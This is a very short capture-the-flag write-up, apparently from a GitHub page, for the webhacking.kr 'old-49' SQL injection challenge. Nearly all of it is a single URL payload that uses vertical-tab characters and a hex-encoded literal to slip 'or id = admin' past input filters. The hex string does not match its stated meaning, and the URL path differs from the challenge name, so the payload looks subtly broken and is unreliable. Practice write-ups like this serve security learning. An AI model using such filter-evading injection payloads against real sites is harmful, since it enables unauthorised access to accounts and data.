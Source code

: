 ```yaml
---
layout: default
title: old-49
---
```


# Webhacking old-49 Solution

another sql injection.
here we want to insert this: `1 or id = 'admin'`
```
https://webhacking.kr/challenge/web-24/?lv=6%0b||id=0x661646D696E%0b
```

